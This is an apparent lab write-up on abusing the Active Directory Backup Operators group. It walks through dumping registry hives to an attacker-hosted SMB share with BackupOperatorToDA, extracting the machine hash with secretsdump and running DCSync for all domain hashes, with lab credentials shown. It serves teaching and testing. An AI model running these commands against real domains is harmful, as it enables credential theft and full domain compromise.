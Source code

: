 # Backup Operators

## Configuring

### Prerequisite&#x20;

The membership of the "Backup Operators" group is configured in the Dumping DPAPI page.

{% content-ref url="../../misc/page-3 (1).md" %}
[page-3 (1).md](<../../misc/page-3 (1).md>)
{% endcontent-ref %}

## Attacking

### How it works

The Backup Operators group is a built in group in AD. By default it has no members.

Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. They also have the permissions needed to replace files (including operating system files) on domain controllers.

One of the known attacks is to copy the ntds.dit file and extract all the domain credentials from it.

{% hint style="info" %}
I wasn't able to copy the `ntds.dit` file. There are some write-ups such as [these](https://coldfusionx.github.io/posts/Blackfield-HTB/) describing how to abuse the "Backup Operator" group through making a shadow copy, but these require winrm access to the DC.&#x20;

In my attack we will use the tool BackupOperatorToDA from [mpgn](https://github.com/mpgn/BackupOperatorToDA).
{% endhint %}

### Tools

* [Smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
* [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)

### Executing the attack

#### The small stuff

* Login to the DC locally (Not through RDP but only locally):

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1).png>)

* List files on the Domain Controller:

![](<../../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

* Copy files from the Domain Controller:

![](<../../../.gitbook/assets/image (67) (1) (1) (1).png>)

#### To Domain Admin!

From our enumeration when we gained access to the `sa_backup` account we know the user is part of the Backup Operators group. We can abuse the permissions by making a copy of the SAM, SYSTEM and SECURITY hive, extract the machine account hash and then execute a DCsync attack.

1. Login to `DATA01` as `sa_backup` with the password `LS6RV5o8T9`.
2. Run the following command to check if the `sa_backup` user is member of the `Backup Operators` group.

![](<../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

3\. One of the requirements is to host a public SMB share, we can do this with the smbserver.py script from Impacket. This will create a share on `\\192.168.248.2\share`.

```
python3 /opt/impacket/examples/smbserver.py share ~/adlab -smb2support
```

![](<../../../.gitbook/assets/image (71) (1) (1) (1) (1) (1) (1) (1) (1).png>)

4\. The next step is to execute the BackupOperatorToDa.exe tool to retrieve the the SAM, SYSTEN and SECURITY HIVE and save them in our created public share:

```
.\BackupOperatorToDA.exe -t \\dc03.secure.local -u sa_backup -p LS6RV5o8T9 -d secure.local -o \\192.168.248.2\share\
```

![](<../../../.gitbook/assets/image (68) (1) (1).png>)

{% hint style="info" %}
If you are using another share, make sure the share is writeable by anyone otherwise the DC won't be able to write its files.
{% endhint %}

5\. If we check in our directory `~/adlab` we can see the files: (for the screenshot I made a copy in the HIVE directory)

![](<../../../.gitbook/assets/image (73) (1) (1) (1) (1) (1) (1).png>)

6\. The next step is to run SecretDump.py to retrieve the machine account NTLM hash out of these HIVE dumps:

```
secretsdump.py LOCAL -system ~/adlab/SYSTEM -security ~/adlab/SECURITY -sam ~/adlab/SAM
```

![](<../../../.gitbook/assets/image (53) (1) (2).png>)

7\. The last step is to run Secretsdump.py to run DCsync and retrieve all the domain account hashes:

```
secretsdump.py 'secure.local/dc03$'@dc03.secure.local -hashes aad3b435b51404eeaad3b435b51404ee:ba6414d4e6ce546465b256950282c7f3
```

![](<../../../.gitbook/assets/image (18) (1) (1) (1) (1).png>)

We retrieved the NTLM account hash of every user in the domain and could authenticate with these to the domain controller. As Administrator for example which is Domain Admin.

## Defending

### Recommendations

* Never use any of the "Operator" groups. Create specialised groups and minimal permissions for the tasks the different IT departments/roles need. Use the least privilege principal.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators" %}

